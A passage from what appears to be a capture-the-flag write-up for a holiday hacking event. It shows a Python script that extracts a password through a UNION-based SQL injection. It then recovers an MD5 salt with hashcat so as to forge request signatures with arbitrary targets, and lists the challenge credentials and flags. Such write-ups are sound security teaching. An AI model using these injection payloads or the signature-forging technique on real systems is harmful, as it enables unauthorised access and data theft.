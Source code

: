 ```
            burp0_url = "https://hackyholidays.h1ctf.com:443/r3c0n_server_4fdk59/album?hash=b%27%20UNION%20ALL%20SELECT%20%221%27%20UNION%20ALL%20SELECT%20%27c%27,%27b%27,%27../api/user?password={}%25%27--%20-%22,%22%22,%22NO!%22--%20-".format(password+o)
            burp0_headers = {"Connection": "close", "Content-Type":"application/json","Cache-Control": "max-age=0", "sec-ch-ua": "\"Google Chrome\";v=\"87\", \" Not;A Brand\";v=\"99\", \"Chromium\";v=\"87\"", "sec-ch-ua-mobile": "?0", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 11_0_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36", "Accept": "*/*", "Sec-Fetch-Site": "none", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9,it-IT;q=0.8,it;q=0.7,zh-CN;q=0.6,zh;q=0.5"}
            r = session.get(burp0_url, headers=burp0_headers)
            soup = BeautifulSoup(r.text)
            l = soup.find_all("img", {"class": "img-responsive"})
            p = l[2]["src"]
            burp0_url = "https://hackyholidays.h1ctf.com{}".format(p)
            r = session.get(burp0_url, headers=burp0_headers)
            if "Expected" not in r.text:
                password = password + o
                print("Password till now {}".format(password))
                found = True
                break
        if found is False:
            break
```

The process resulted in the following credentials: 

grinchadmin / s4nt4sucks

Then, I used those credentials to login into the "Attack Box", where the flag was stored.

{F1140396}

Flag: flag{07a03135-9778-4dee-a83c-7ec330728e72}

#Challenge 12
Challenge 12 was accessible by browsing https://hackyholidays.h1ctf.com/attack-box. The challenge contained some IPs to attack clicking on a button.

{F1140397}

Clicking on one of the attack buttons performed a request similar to the following.
```
https://hackyholidays.h1ctf.com/attack-box/launch?payload=eyJ0YXJnZXQiOiIyMDMuMC4xMTMuMzMiLCJoYXNoIjoiNWYyOTQwZDY1Y2E0MTQwY2MxOGQwODc4YmMzOTg5NTUifQ==
```
The base64 payload contained the following value:

{"target":"203.0.113.33","hash":"5f2940d65ca4140cc18d0878bc398955"}

By trying to tamper the target value, the webserver returned the following error.

{F1140398}
{F1140399}

It was necessary to bruteforce the hash order to generate new md5 hashes and arbitrary target properties. I used hashcat and the rockyou.txt wordlist for this purpose. Hashcat mode 10 was used, namely md5($pass.$salt). The bruteforce was successful and the secret value resulted to be: mrgrinch463. Afterwards, I created a script to generate new hashes and start attacks with arbitrary target values.
